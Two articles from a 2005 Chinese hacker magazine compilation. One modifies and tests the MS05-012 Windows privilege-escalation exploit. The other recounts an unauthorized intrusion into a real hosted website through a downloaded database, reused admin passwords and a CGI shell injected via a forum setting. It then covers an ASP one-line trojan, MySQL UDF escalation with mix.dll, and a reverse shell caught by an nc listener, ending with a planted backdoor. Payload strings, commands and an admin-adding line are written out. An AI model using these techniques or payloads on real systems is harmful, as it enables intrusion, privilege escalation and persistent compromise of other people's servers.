# 黑客X档案合订本2005年（下）第二部分

---

## Windows COM结构存储本地溢出漏洞（MS05-012）

孟方明 -273℃@EST

## 试用手记

```bash
localgroup administrators /add youruser
```

### 一、漏洞简述

前些日子，网上公布了 Windows COM 结构存储本地溢出漏洞（MS05-012）的溢出程序。该漏洞是由于受影响的操作系统和程序在处理 COM 结构化存储文件时，访问共享内存的方式中存在权限提升问题，已登录用户可利用此漏洞完全控制系统。攻击者可以构建任意代码在存在漏洞的机器上执行，影响 Windows 2000（SP3、SP4）、XP（SP1、SP2）及 Windows 2003 系统，危害较大。

### 二、漏洞利用

我们仔细阅读了该溢出程序并进行了测试。编译时需要 VC++ 6.0 以上版本，初次编译可能有小错误（如 BOOL 大小写、标识符识别等），手工修正后可编译通过。随后在本地测试中，通过低权限用户运行 cmd 并执行利用程序，验证提权行为及新命令窗口出现情况。

说明文档中提到参数一是 webfldrs.msi 的物理路径，后面是希望执行的命令。实测发现利用流程依赖安装与卸载行为，以及新线程创建堆对象并写入 shellcode 的过程；若对象打开失败或权限不足，利用会失败。

进一步实验发现，当 webfldrs.msi 已安装时，卸载阶段可能因权限问题导致线程挂起；而未安装时又难以触发完整流程。因此作者修改利用程序，将原始卸载逻辑调整为以管理员权限安装，以便在低权限运行场景下触发目标效果。





根据说明，在 Win2000 中可以直接打开交互式 shell；在 WinXP/Win2003 中通常只能执行非交互命令。文中继续对编译后程序的帮助信息与参数写法进行说明。

```text
ms05012
COM Structured Storage Vulnerability Exploit
Tested on WIN2K-SP4
usage:
  ms05012 "path_to_webfldrs.msi" "command"
examples:
  ms05012 c:\windows\system32\webfldrs.msi "cmd.exe"
```

右栏结论部分描述：重新编译后再次执行，提示命令可能已执行，屏幕出现新的 CMD 窗口，添加账号等操作成功；但在进一步外部测试中并非所有环境都能稳定复现。

# 一个人的战争

组用户是可以安装 webfldrs.msi 的！可是为什么我会成功呢？原来，我的系统盘是 NTFS 格式，webfldrs.msi 安装程序会检查系统盘上的某个目录是否存在一个 dll，如果不存在，就要复制这个 dll 到那个文件夹，而由于 NTFS 分区格式做了严格的限制，user 组用户对那个目录没有写权限，所以才导致程序出错。并不是因为不能安装造成的。但是对于系统盘不是 NTFS 分区的系统来说，我的这个方法就彻底失败了！



我增加了一个时间的选项，该时间是以毫秒为单位，默认值是 300，这是我多次测试的结果。读者朋友可以根据自己的情况自行设置。修改后的 exploit 不但成功执行，而且可以多次使用。



图3

- 系统分区是非 NTFS 分区，怎么办？
- 只能利用一次，怎么办？

测试工作又再次陷入僵局，问题很明显。冥思苦想了几个小时后，思路回到起初的问题：如何让那个线程挂起？只要把安装 webfldrs.msi 的线程挂起，那么溢出程序就可以找到可写的堆，从而 shellcode 就可以写进去并执行。



图4

刚才我们是在本地上进行的权限提升，现在我们再来看远程利用。使用 pc 得到远程电脑的一个 cmd shell（guest 权限）时，添加账号会提示“系统发生 5 错误”。因此需改用其他格式进行测试。



图5

那么溢出程序执行的整个流程如下：

```text
1. 调用 CreateThread() 创建 MsiInstallProduct 线程，安装 webfldrs.msi。
2. 主线程（即溢出程序线程）等待 x 秒后，调用 SuspendThread 挂起 MsiInstallProduct 线程。
3. 溢出程序复制 shellcode 到可用堆，shellcode 执行。
4. 主线程调用 ResumeThread() 恢复 MsiInstallProduct 线程执行。
5. 主线程结束。
```

整个过程应该就是这样了，关键就在于第二步中的等待时间。等待过长或过短都会导致失败。于是按照这个想法重新修改了溢出程序，运行界面如下：





图6

A控255页

# 一个人的战争

# 从“利用纯脚本技术入侵”到“漂亮展示”

入侵目标是我早已经选择好的了，花了两个小时入侵成功。入侵的时间不长，过程也并不复杂，只是没有想到这次入侵是这样的漂亮和赏心悦目。技术还是一些大家都会的老技术，思路加运气使得这次入侵一气呵成。

目标站点只有一个雷傲论坛，使用的是最新版，网站管理员打补丁很勤快。我自然想到了旁站，看一下同一虚拟主机上别的站点有何漏洞。whois.webhosting.info/ip，得到了 6 个域名。挨个看下去，主机支持的脚本系统还挺多，ASP、PHP、CGI 都有，我当然是选择从最熟悉的一个 ASP 站点入手了。没有想到的是，ASP 系统竟然看到的都是先龙 HTML 网页内容管理系统。

如何知道是见讯系统的呢？站上所有版权都去掉了，只是在登录找到的后台页面时随便输了一个账号，弹出了如图1所示的对话框。用对话框上的文字在百度里搜了一下，也没有找到相关的漏洞信息。还是继续找一下别的链接，在一个不起眼的地方发现了一个旧版网站入口，竟然是动网文章系统。直接爆库，得到了动网文章的数据库地址，如图2所示。

数据库的名字起得挺变态，不过把“#”换成“%23”就可以用下载软件下载了。打开下载的数据库，admin 表里竟然有10几个管理员。不过动网文章系统后台没有什么好玩的，也不能上传，我也试过了直接在数据库里写入 ASP 木马，可惜不成功。这个站上，也有一个最新版的雷傲论坛，挨个试一下是否有同样的管理员密码。功夫不负有心人，试到第6个的时候，竟然用其中一个账号登录雷傲论坛成功了。

进入论坛的后台，才发现这个账号的权限并不大，只有限的几个功能而已，根本不能对论坛的一些上传之类的重要功能进行设置。挨个看看自己现在具备的后台权限，发现有这样一个功能，就是可以编辑添加用来保留一些可以出售帖子用户名，如图3所示。这里能不能写入一个 CGI 的 shell 呢？





图6。这个 shell 的用法就是“http://论坛url/data/cansalelist.cgi?cmd=命令”，不过不直观。用它来遍历了一下目录，得到了网站路径在 d:\home。用这个 shell 写一个 S 端的 ASP 木马上去，提交“http://论坛url/data/cansalelist.cgi?echo+<%25execute(request(chr(35)))%25>+>d:\home\1.asp”……由于是在 url 里提交的，所以“<>”要用“^”来转义，空格换成了“+”，“%”换成了“%25”。

不知为什么，S 端里有双引号的话，我的 S 端 ASP 木马就写不上去，于是我把“<%execute(request("#"))%>”换成了“<%execute(request(chr(35)))%>”。搞了有1个小时之久，终于把 S 端 ASP 木马写到受入侵目标网站的目录底下了，得到强大的海阳顶端网 ASP 木马的 webshell 了。









按下来就是提升权限了，目标网站没有 serv-u、pcanywhere、vnc 之类的东西，提权看起来挺困难。不过，不是最近逗出了一种使用 mysql 提升权限的技术吗？用 ASP 木马查看 c:\winnt\mysql.ini，看到了 mysql 的 root 密码。在本机运行 mysql -h ip -uroot -ppass 来连接远程目标站，不行，连不上，不支持远程连接。还好，服务器支持 php，用 webshell 再传一个 php 的 webshell 上去，然后再把提权的 mix.dll 传到目标网站上。

```sql
CREATE FUNCTION Mixconnect RETURNS STRING SONAME 'Mix.dll的物理文件地址';
```

# 一个人的战争

图7所示，看样子是执行成功了，我在本机监听一个 2005 端口，nc -vvlp 2005，再在 php 的 webshell 里执行“select Mixconnect('我的ip','2005');”，如图8所示。本地的 NC 监听等了一会儿，成功得到了一个系统权限的 shell，如图9所示。现在就是为所欲为了，传东东带日志，打个后门走人。



图7



图8



图9

不过，我后来才发现，通过 mix.dll 提权，竟然使 mysql 呈假死状态，不得不通过后门再登录一次，重启了 mysql 服务，该网站才恢复正常。这次入侵，结合了 ASP、PHP、CGI 的各项脚本技术，过程竟然异常顺利，事后都觉得侥幸。不过，我想运气还是建立在实力的基础上的，只要其中一个环节出错，恐怕也没有这样顺利了。最后这几句好像有点王婆卖瓜的意思，大家不要笑我。

> （文章中涉及到的工具 lcx、php、mix.dll 已经收录于光盘中）

